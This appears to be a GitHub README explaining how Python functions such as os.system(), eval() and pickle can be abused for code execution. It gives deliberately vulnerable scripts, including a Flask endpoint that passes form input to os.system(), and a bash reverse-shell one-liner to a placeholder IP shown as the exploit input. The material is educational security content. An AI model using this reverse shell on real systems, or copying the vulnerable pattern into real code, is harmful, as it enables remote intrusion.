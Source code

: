 # Python-Security-Principles
Fundamental concepts and principles on how Python application can be abused to gain remote code execution or be used to perform any type of unattended functionality

Python is an interpreted high-level general-purpose programming language. Python's design philosophy emphasizes code readability with its notable use of significant indentation. A lot of modern web application use python , especially when utilizing API endpoints. It is critical to secure these web application and API endpoints to ensure that the web application behaves as expected

When validating secure code , always examine the code to determine what paramter is used to accept user input , on what route is it mapped to and how the user supplied data gets processed during the web applications execution flow. Never pass input that the user has control over to a paramater that gets wrapped around a dangerous function() that could interact with the underlying OS and execute code.

The following Python fucntions() can be abused to execute code, exfiltrate data, perform unattended functionality or bypass authentication pages

- os.system()
- eval()
- exec()
- input()
- str.format()
- Pickle()
- Jinja2/Tornado 
- PyYaml 

os.system()

Allows the Python script/program to execute shell commands on the underlying OS. Below is a basic example of how this function() can be used.

Basic Script - Accepts user input and saves it in the txt variable and then passes the txt variable to os.system()
```
#!/usr/bin/python

import os

txt = input("Enter Command to Execute?: ")
os.system(txt)
```
Another example of a similiar program that is not properly validated. The below code asks for a name , but passes the input to os.system(). This is a basic example of how the context of the program does not match it's functionality. 
```
#!/usr/bin/python

import os

txt = input("What is your name?: ")
os.system(txt)
```
Explioting the above code. Since the entire input variable is send to os.system(), the attacker can just provide a reverse shell one-liner instead of a valid name
```
What is your name?: bash -i >& /dev/tcp/10.10.10.10/9999 0>&1

//Replace IP
//Replace Port
```
The following code accepts user input from the public and passes it to os.system(), allowing the web application to be vulnerable to code execution

Flask - Micro web framework written that allows the web app to function

/api - Web application route. Location of the paramater that accepts user input

POST - Enforces the paramater to only accept user input via a HTTP POST request

os.system() - Function that enables the web application to interact with the underlying OS

request - Paramater that accepts user input , wrapped around os.system(), allowing code execution

Interacting with the web app
```
curl -X POST http://10.10.10.10:5000/api?request=
```
Vulnerable Web Application
```
#!/usr/bin/python

import os
from flask import Flask, request

app = Flask(__name__)


@app.route("/api", methods=["POST"])
def hackme():
    data = os.system(request.form['request'])
    print(data)
```
